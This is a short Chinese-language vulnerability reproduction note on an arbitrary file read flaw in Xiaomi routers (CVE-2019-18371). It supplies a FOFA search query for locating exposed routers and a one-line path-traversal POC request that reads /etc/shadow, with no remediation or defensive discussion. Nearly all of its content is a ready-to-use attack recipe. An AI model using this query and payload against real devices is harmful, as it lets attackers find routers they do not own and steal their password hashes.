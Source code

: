 # 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

```
小米 路由器
```

## FOFA

```
app="小米路由器"
```

## 漏洞复现

登录页面

![image-20220715110456566](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207151106569.png)

验证POC

```
/api-third-party/download/extdisks../etc/shadow
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207151106800.png)